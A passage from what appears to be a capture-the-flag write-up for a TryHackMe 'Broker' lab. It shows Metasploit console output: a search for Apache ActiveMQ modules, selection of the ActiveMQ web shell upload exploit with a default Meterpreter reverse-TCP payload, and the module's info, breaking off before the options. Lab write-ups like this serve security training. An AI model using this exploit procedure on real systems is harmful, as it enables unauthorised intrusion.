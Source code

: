 I'm user `activemq`!

### 2. MetaSploit

**Let's fire up MetaSploit and run the exploit:**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/broker]
└─# msfconsole
[...]
msf6 > search ActiveMQ

Matching Modules
================

   #  Name                                                      Disclosure Date  Rank       Check  Description
   -  ----                                                      ---------------  ----       -----  -----------
   0  exploit/multi/http/apache_activemq_upload_jsp             2016-06-01       excellent  No     ActiveMQ web shell upload
   1  exploit/windows/http/apache_activemq_traversal_upload     2015-08-19       excellent  Yes    Apache ActiveMQ 5.x-5.11.1 Directory Traversal Shell Upload
   2  auxiliary/scanner/http/apache_activemq_traversal                           normal     No     Apache ActiveMQ Directory Traversal
   3  auxiliary/scanner/http/apache_activemq_source_disclosure                   normal     No     Apache ActiveMQ JSP Files Source Disclosure
   4  exploit/windows/browser/samsung_security_manager_put      2016-08-05       excellent  No     Samsung Security Manager 1.4 ActiveMQ Broker Service PUT Method Remote Code Execution


Interact with a module by name or index. For example info 4, use 4 or use exploit/windows/browser/samsung_security_manager_put

msf6 > use 0
[*] No payload configured, defaulting to java/meterpreter/reverse_tcp
msf6 exploit(multi/http/apache_activemq_upload_jsp) > 
```

```
msf6 exploit(multi/http/apache_activemq_upload_jsp) > info

       Name: ActiveMQ web shell upload
     Module: exploit/multi/http/apache_activemq_upload_jsp
   Platform: Java, Linux, Windows
       Arch: 
 Privileged: Yes
    License: Metasploit Framework License (BSD)
       Rank: Excellent
  Disclosed: 2016-06-01

Provided by:
  Ian Anderson <andrsn84@gmail.com>
  Hillary Benson <1n7r1gu3@gmail.com>

Available targets:
  Id  Name
  --  ----
  0   Java Universal
  1   Linux
  2   Windows

Check supported:
  No

Basic options:
```